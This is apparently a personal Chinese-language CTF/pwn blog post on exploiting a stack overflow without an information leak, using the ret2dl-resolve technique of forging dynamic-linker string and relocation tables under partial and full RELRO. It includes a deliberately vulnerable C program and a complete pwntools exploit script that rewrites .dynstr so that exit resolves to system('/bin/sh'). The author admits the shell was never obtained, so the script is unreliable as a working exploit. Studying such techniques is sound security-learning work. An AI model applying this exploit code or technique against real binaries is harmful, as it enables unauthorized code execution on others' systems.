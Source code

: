 ```yaml
---
title: exploit without info leak 
date: 2017-02-15 22:28:37
categories: pwn
---
```


#不依靠信息泄漏来exploit

##信息介绍

 安全攻防的升级从堆栈执行shellcode到NX不可执行，从ret2libc到ASLR地址随机化，从dyn sym strda到RELRO, 到攻击者的内存泄漏内存地址不断进化着。
目前攻击者在控制pc指针后，一般分两步来完成后续的漏洞利用。第一步通过信息泄漏漏洞leak出内存布局，第二部则是精心构造具有艺术感的expoit gadget。
 但如果有些程序没有可以泄漏内存的信息的漏洞怎么办？如下面的代码，除了明显的pc指针控制漏洞外，没有引入任何输出函数，导致后续没办法输出内存信息。
 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulfunc()
{
    char sbuf[10];
    read(0, sbuf, 60);
}

int main()
{
    vulfunc();
    exit(0);
    return 0;
}
```
在usenix大会上,ucsb-seclab分享了他们的攻击方法。在Linux上，为了节省静态库占用空间，和保证动态库的稳定工作，引入了一种plt lazy binding的技术。一个普通的ELF文件通常包含了下面一些段
![](/images/exploit without info leak/1.png)
而那些从外部动态库引入的函数则主要以字符串信息保存在ELF中，而它们正真的地址则在程序第一次调用它们时才从系统获取到。这个过程中利用PLT来完成延迟绑定，在第一次函数地址重定位后，函数地址将被写入GOT表中，此后再调用该函数将查询GOT表来跳转。（参考于 《程序员的自我修养 --链接、装载与库》）

##攻击思路

那么这里就有个想法，如果修改了内存中保存的函数名，比如把"printf"这个字符串改为“execv“等关键函数，那么在第一次调用printf("/bin/sh")时，真正执行了execv("/bin/sh")，从而get shell。
但ELF相关开发小组早就做了保护，保存的函数名等字符串段在载入内存后是仅可读的，阻止攻击者通过篡改内存中函数名来获取到其他函数在内存中的地址。

但同样的思路，换个方法，就可以成功绕过防护，这里就要介绍写ELF中信息的分布和函数地址的动态重定位了了。
1. .dynstr段中保存了动态引入的函数名字符串
2. .dynsym段中则是记录了不同动态引入函数的其他信息，并且st_name保存了.dynstr中对应的函数名称的下标号
    struct {
        st_name
        ...
    }
3. .rel.plt段则是用来记录引入函数的地址信息，如果在动态链接器获取了函数地址后，r_offset保存解析后的符号地址被写入内存中的位置，而r_info保存.dynsym中对应的函数信息的下标号
    struct {
        r_offset
        r_info
    }
4. .dynamic段则保存了上面各个段的地址，负责地址的查询工作

而函数地址则由got表中第二个标号中的_dl_runtime_resolve(link_map_obj, reloc_index)函数指针来获取，获取到的地址则保存到got表中，那么就可以衍生出下面几种不同情况下的攻击方法：

##攻击方法
###部分RELRO保护 1.
在内存可写的段中构造伪造的.dynstr段信息，将其中的最后要用的函数名改为自己想要的函数名，比如execv 替换printf
接着将该段内存的地址覆盖写入.dynmaic段中保存.dynstr地址的区域，接着再向内存中写入shellcode，接着给printf函数传入shellcode，那么当printf是第一次被调用时，将从伪造的.dynstr段中读取到“execv”函数名，接着从内存中获取到execv函数地址存入printf函数对应的got表中，最后跳转回去再执行到的就是execv(shellcode)了，成功get shell。
###部分RELRO保护 2.
直接一次性伪造.dynstr, .dynsym, .rel.plt三个段，填入自己想获取的函数名称信息，最后将伪造的.rel.plt地址传入_dl_runtime_resolve()中，最后会顺着地址将伪造的.dynstr段中的函数名解析，获取到地址，保存到对应标号的GOT表中，后续就是同样利用了。
###完全RELRO保护 3.
当采用完全RELRO保护时，所有重定位将在加载时全部完成，没有plt lazy binding, 所以要绕过保护需要采用不同的方法。
伪造.dynamic, .dynstr, 接着通过DT_DEBUG来解析r_debug中保存的r_map信息，r_map则保存着link_map链表的头部指针， 覆盖link_map的l_info指向伪造的.dynamic段中，后续相同利用。

##攻击测试
先贴exp：

```
#!/usr/bin/python

from pwn import *

vulFunAddr = 0x0804845b
mainFunAddr = 0x08048476
readpltAddr = 0x08048310
exitpltAddr = 0x08048340
putspltAddr = 0x08048320
dynstrInDynamicAddr = 0x080496a0
dynstrAddr = 0x0804821c
bssAddr = 0x08049770
dynstrListAddr = [0x0804821c, 0x0804821d, 0x08048227, 0x08048236, 0x0804823b, 0x08048240, 0x08048245, 0x08048257, 0x08048266, 0x08048270]
strTable = ['', 'libc.so.6', '_IO_stdin_used', 'puts', 'exit', 'read', '__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[4] = 'system' #use 'system' in place of 'exit'
log.info('strTable = ')
log.info(strTable)

expOffset = 22 
log.info("* [ok]: exploit offset is " + str(expOffset))
binShellStr = '/bin/sh\0'
payloadHead = 'a'*expOffset

def showDynStr():
    log.info("=======================")
    for i in dynstrListAddr:
        payload = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(i)
        p.send(payload)
        str = p.recv()
        #print str
    log.info("=======================")


def writeStrTableToBSS(baseAddr):
    tempBSS = baseAddr
    for i in strTable:
        #str = i + chr(0)
        str = i + chr(0)
        payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(tempBSS) + p32(len(str)+1)
        p.send(payloadTemp)
        log.info('* [ready]: write str = %s ' %(str))
        p.sendline(str)
        #set new bss offset
        tempBSS = tempBSS + len(str)

p = process('./a.out')
#context.log_level = 'debug'
#gdb.attach(p, execute='b *0x0804845b\nb *0x08048476\nb *0x08048340\n')

p.recvline()

log.info("* [ok]: show dynstr strtable")
showDynStr()

#first: write '/bin/sh\0' to BSS seg
payload1 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
p.send(binShellStr)
log.info("* [ok]: write '/bin/sh\0' to .bss seg successed!")

#second: write StrTable to BSS seg
dynstrInBSSAddr = bssAddr + len(binShellStr)
writeStrTableToBSS(dynstrInBSSAddr)
log.info("* [ok]: write self StrTable to .bss seg successed!")


log.info("* [ok]: show dynstr strtable")
showDynStr()

#third: write new StrTable address to dynamic d_val addr
payload2 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
p.send(p32(dynstrInBSSAddr))
log.info("* [ok]: write new StrTable to dynamic d_var addr successed!")

log.info("* [info]: ensure '/bin/sh' in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
str = p.recv()
print str

#forth: exit, and exit@plt('/bin/sh') -> system('/bin/sh')
#payload3 = payloadHead + p32(exitpltAddr) + p32(mainFunAddr) + p32(bssAddr)
log.info("* [ok]: show strTable in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(dynstrInBSSAddr)
p.send(payload3)
str = p.recv()
log.info("=======================")
print str
log.info("=======================")
payload3 = payloadHead + p32(exitpltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
log.info("* [waiting]: exit@plt('/bin/sh') -> system('/bin/sh')")

p.interactive()
```

在测试结果时，故意将函数名填错后，程序运行提示重定位错误
![](/images/exploit without info leak/2.jpeg)
修改正确后
![](/images/exploit without info leak/3.png)

但。。。。最后没得到shell。。不知道是我调用有问题。。还是。。算了，记日记，以后再调试。。。

